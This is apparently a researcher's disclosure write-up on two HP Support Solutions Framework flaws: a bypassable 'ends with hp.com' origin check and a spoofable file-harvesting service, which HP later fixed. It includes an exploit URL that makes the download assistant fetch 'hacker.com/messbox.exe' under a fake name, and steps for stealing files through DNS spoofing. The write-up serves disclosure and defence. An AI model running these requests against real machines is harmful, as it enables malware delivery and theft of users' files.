


After discovering [the flaw in Dell's System Detect software](https://tomforb.es/dell-system-detect-rce-vulnerability) I looked into other similar software for issues. This post details two issues I found with the HP Product Detection software and explores the protections HP put in place. I'm also going to explain how they could be easily bypassed to allow an attacker to force files to be downloaded, read arbitrary data, registry keys and system information through the users browser with little or no interaction.


*Timeline:*

HP were incredibly prompt at fixing the issue and responding to communications. They have addressed these problems in a new version (11.51.0049) and have issued a security notification, [available here](https://h20564.www2.hp.com/hpsc/doc/public/display?docId=emr_na-c04634535). An updated version can (and should) be downloaded from [their support page](https://support.hp.com)

   * 25/3/2015 - Contacted HP with a writeup and received an acknowledgement that it has been passed to the relevant software team
   * 10/4/2015 - Received notification that the vulnerability has been fixed


### Summary
Many large hardware vendors offer tools to automatically detect the hardware configuration of users machines to take them to the exact drivers that they require. Just like Dell, HP feature this software prominently on their support landing page.


Unfortunately just like Dell the HP software contains a number of functions that you wouldn't expect. When you click "Find Now" you are actually downloading the complete [HP Support Solutions Framework](https://h20614.www2.hp.com/ediags/gmd/about.aspx?lc=en&cc=uk) which includes functionality to:

   * Read arbitrary files and registry keys
   * Collect system information
   * Summarize installed drivers and devices
   * Initiate the HP Download Assistant to download arbitrary files

The program also attempts to send any collected data back to HP servers and also attempts to stop anyone but the HP support staff accessing it, but as I will demonstrate these checks are easily bypassed. Due to the nature of the software this means that any of these functions can be **invoked by any web page you visit without any notification**, and combined with the fact that the program shows no visible sign of running and it starts with the machine automatically means this is a very dangerous piece of software.

### The juicy details
As previously stated the software installs a service on your computer and listens for HTTP requests on *localhost:8092*. The JavaScript in your browser then communicates with this service by making AJAX requests to that local port. Below shows the page fetching the version information of the installed software:



When a browser makes a HTTP request the browser adds some information to the headers about the page or context that initiated the request, in the **Referer** (yes, spelt like that) and **Origin** headers. Under usual circumstances these requests would be coming from the HP support site, so the **Referer** header might have a value of **https://www8.hp.com/uk/en/drivers.html**.

So let's get right into the code and see how these headers are used. After decompiling the software we find the following (abbreviated) function inside *SolutionsFrameworkService.SsfWebserver*:

```csharp
private void GetContextCallback(IAsyncResult result)
{
   string uriString;
   if (request.QueryString.Get("callback") != null)
      uriString = request.Headers["Referer"] ?? "https://hp.com";
   else
     uriString = request.Headers["Origin"] ?? "https://hp.com";

   if (!new Uri(uriString).GetComponents(UriComponents.Host, UriFormat.Unescaped).EndsWith("hp.com"))
   {
     ... error
   }
   else
   {
     ... process request
   }
}
```

The line we need to focus on is this:
    
    if (!new Uri(uriString).GetComponents(UriComponents.Host, UriFormat.Unescaped).EndsWith("hp.com"))

In English this translates to **if the hostname ends with hp.com**, which is the **only way the program authenticates a valid request**. On the face of it this might look like a perfectly valid way to ensure that a HTTP request came from a valid HP domain however it is critically flawed. The check only checks if the domain **ends** with hp.com, so if a hacker were to register the domain **nothp.com** and make a request from there then it would pass the check. Apart from [giving me Déjà vu](https://tomforb.es/dell-system-detect-rce-vulnerability) it also gives me a foot in the door - any command I issue will be processed by the software. So let's see what commands can be processed.


### Triggering a download
When the program processes a request it inspects the first two components of the requested path. The first is used to look up a **controller**, and the second component (if present) specifies the **method**. In the Chrome screenshot above it is making a request to the **version** controller, which has one default action that returns the software version. Looking through the source there are several interesting controllers, but we shall start with the **HPDIAcontroller** which is used to drive the "HP Download and Install Assistant". The actual code is pretty convoluted and not particularly relevant, but what is interesting is that if we make a request to (some unimportant parameters omitted):

    https://localhost:8092/hpdia/run?RemoteFile=https://hacker.com/messbox.exe&FileTitle=update.exe

Then this triggers the download assistant to start, which brings itself to the foreground downloads the file:


I looked long and hard but the software doesn't automatically install anything without user interaction. However this doesn't render the attack useless, far from it. The attacker is able to control the displayed file title ("update.exe" in the screenshot) and can completely hide the real executable name by calling it "_.exe", which causes the download assistant to display "(.exe)" after it. One redeeming feature of this software is that it only accepts download requests for files that are served over HTTPS.

If an inexperienced user were to visit an malicious page that looked like a real HP site telling them to update their software and the HP download manager pops up I think many might press install, which would execute the attacker's malware and compromise their machines. For some advanced malware merely being downloaded could be enough.

*Edit:* Funnily enough I told my housemate about this and he said he had the HP download assistant pop up once while browsing a "dodgy torrent site". Perhaps this was already known?


### Harvesting users information
The software contains a large number of "harvesters" (named so in the code) which can be used to steal files from the users machines and read other system information like registry keys or driver details. This attack is bit more complex and targeted than the one above, but could be even more dangerous if executed correctly.

When an HP support technician attempts to diagnose problems with a customer's computer they may need to read specific files on the user's computer, or access other possibly sensitive information. The normal and legitimate steps taken by the software when a technician wishes to read information from the users machines are as follows (please excuse my terrible diagrams):

   1. The support technician issues a request to the program instructing it to run the "idfservice" controller
   2. This controller then makes an HTTP request to the host *diagsgmdextpro.houston.hp.com*, with the product line of the HP machine the user is using. This returns a list of files to harvest
   3. The program then reads the specified portions of the files and sends them back to *diagsgmdextpro.houston.hp.com*
   4. The support technician presumably accesses this information to diagnose any issues.


You can view an example of the servers response by visiting the following URL: [https://diagsgmdextpro.houston.hp.com/ediags/solutions/harvestertemplate?productLine=KV](https://diagsgmdextpro.houston.hp.com/ediags/solutions/harvestertemplate?productLine=KV), and below is a snippet of the result that instructs the software to read a registry key:

```xml
<TemplateFile>
   <FileName>Hewlett-Packard\\HPActiveSupport\\Version</FileName>
   <MatchType>regex</MatchType>
   <Matches>
      <MatchExpression i:nil="true"/>
      <Matches>
         <MatchData>
            <MatchExpression>
                ^HPSAVer: (\d{1,5}[.]\d{1,5}[.]\d{1,5}[.]\d{1,5}|[a-zA-z]+)$
            </MatchExpression>
            <Name>HPSAver</Name>
         </MatchData>
      </Matches>
      <Name i:nil="true"/>
   </Matches>
   <Source>registry</Source>
</TemplateFile>
```

This isn't actually a terrible system, because the system contacts an authoritative service to retrieve a list of files to download rather than accept this data from the client directly. 

So how can an attacker exploit this? He or she need to trick the application into connecting to their server instead of one hosted by HP. One possible way to do this is to use a DNS spoofing attack (like [DNS cache poisoning](https://en.wikipedia.org/wiki/DNS_spoofing)) so that the domain *diagsgmdextpro.houston.hp.com* resolves to an IP address they control. Another possible way is to [man in the middle](https://en.wikipedia.org/wiki/Man-in-the-middle_attack) their connection, as they use a plaintext HTTP request to send and receive data. How to exactly do this is outside the scope of this post but it is possible.

Once done, the attacker can make the request to the users software and it will connect back to a machine that they control, which will instruct the software to read any file they choose.  Thus the following happens:

   1. Attacker triggers the users browser into making a crafted request to the idfservice controller
   2. Program resolves the *diagsgmdextpro.houston.hp.com* to an attacker controlled IP and makes a request for files to read. The attacker returns a list of files he or she wants to read
   3. The program collects these files and sends them back to the *diagsgmdextpro* address, simply giving the data to the attacker.



As you can see from the sample XML above for each bit of data we read there has to be some form of filter in the form of a regular expression. We can simply use the expression **.* ** to match the entire file. In the screenshot below I have made a simple web application that serves a malicious page that instructs the software to read **C:\\secret.txt** and the user's system information. The console window to the left shows that the program has dutifully sent the data to the attacker controlled server.


### Conclusion
I've described two flaws with the HP Solutions Framework that can be exploited to potentially compromise a users machine without much/any user interaction. While the first attack is not as bad as Dell's (which requires no user interaction at all) it could be just as dangerous to nontechnical users who might not consider a random HP download window popping up to be suspicious.

The second attack is more targeted than the first and requires more setup, but could be used to read sensitive user documents or information and pass it back to the attacker. This should be mitigated first by using HTTPS and second by explicitly verifying the servers SSL certificate to ensure it is connecting to a valid HP controlled server.

While I don't want to be too critical of HP because their response was prompt and speedy I do think that their security procedures are lacking if such software can be published by them. That being said they do make it clear to users that they are downloading the entire Support Solutions Framework and explain the functionality it includes.
    